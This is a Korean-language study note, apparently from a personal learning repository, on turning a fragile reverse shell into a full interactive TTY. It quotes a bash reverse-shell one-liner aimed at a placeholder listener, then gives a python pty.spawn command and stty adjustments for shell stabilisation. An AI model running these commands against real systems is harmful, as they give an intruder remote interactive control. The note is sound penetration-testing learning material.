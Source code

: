 #  TTY

이전 01. 파일에서 배웠던 코드로 얻은 쉘은 깨지기 매우 쉽다.
또한 지원하지 않는 기능도 많아서 불편한 점이 한두가지가 아니다.

컨트롤C 를 누르면 연결이 바로 끊어지고, 방향키, 탭, nano, vi 등 지원하지 않는 기능이 너무나 많다.  
그 이유는 이전에 파일의 코드에서도 찾아볼 수 있는데   

**이전 코드**  

```bash
bash -c 'bash -i >& /dev/tcp/[VM 외부 Local Host IP 주소]/[Listen 중인 포트] 0>&1'
```
이건 Bash가 `stdout`과 `stderr`를 `/dev/tcp/host/port`로 리디렉션하는 구조로,  
단순한 입출력 스트림만을 통해서만 명령을 주고 받기 때문이다.  

쉽게 말해서 네트워크 소켓을 통해 연결만 제공된 상태이기 때문이다.   

그말은 곧 터미널(TTY)이 할당되어있지 않은 상태로 볼 수 있기에 이를 해결해줘야한다.  

<br>

### tty 할당 확인 방법  
1. `tty` 명령어 입력
  -  간단하게 그냥 `tty` 명령어를 쳐보면 된다.
  - tty가 할당되어 있지 않다면 tty가 아니라는 문구가 나올 것이다.
  - 만약 할당되어 있다면 `/dev/` 아래에 연결된 특정 TTY나 PTY 경로가 나와있을 것이다.

<img src="https://github.com/user-attachments/assets/d963c1af-d276-464e-bd4f-95b4c9636cb0" width=300>  
<img src="https://github.com/user-attachments/assets/4efbf481-06a9-4376-aeed-47d8fbc3228f" width=300>   

<br>
<br>
<br>

2. `python` 명령어 입력
  - 이후 자동화나 스크립트에서 유용하게 쓰일 수 있는 방법이다.
  - `sys.stdin`은 표준입력을 의미하고 `.isatty()`는 터미널 장치인지 묻는 내장함수이다.
  - 연결되어 있다면 True를, 아니라면 False를 반환할 것이다.  

```python
python3 -c 'import sys; print(sys.stdin.isatty())'
```

<img src="https://github.com/user-attachments/assets/40bb4050-bae8-4590-ab15-ccae4b739c9c" width=600>  
<img src="https://github.com/user-attachments/assets/c72cc16e-2f75-4395-8ee2-d1b21a2efa46" width=600>  


<br>
<br>

### TTY 할당  
이제 TTY가 할당되어있지 않은 상태라는 것을 알았으므로 할당을 해줘야한다.  
명령어는 간단하게 아래 명령어를 치면 된다.  

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

이 명령어는 내부적으로 pseudo-terminal을 생성해서 새로운 bash 셸을 띄우는 것이다.  

pseudo-terminal(PTY)는 말 그대로 가짜 터미널이다.  
운영체제가 만들어주는 가짜 터미널 장치이며 터미널처럼 입출력 할 수 있게 해주는 인터페이스이다.   

참고로 아직 방향키, 컨트롤키 등 대부분 안되는 상황일거다.  
<br>

### TTY 설정 보정  
이제 추가로 몇가지 단계를 해주면 된다.  
- `export TERM=xterm`로 터미널 종류 설정 (vi 나 nano 같은 것들 화면 깨짐방지)
- `ctrl Z`로 일시정지
- 'stty raw -echo; fg' 터미널 입력방식 수정 후 리버스 셸 복귀
- `stty rows 38 columns 116` 화면 깨짐 방지 (화면 레이아웃 보정)

```bash
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```

이렇게 단계를 거치면 제대로 된 쉘 환경을 가져올 수 있다.   
컨트롤 C 포함 방향키 탭키 vim, nano 등 전부 화면 깨짐없이 잘 작동한다.  

<br>

물론 자동화가 가능한 pwncat-cs 같은 도구가 있지만  
우선 천천히 감을 잡은 뒤에 사용해보겠다.  
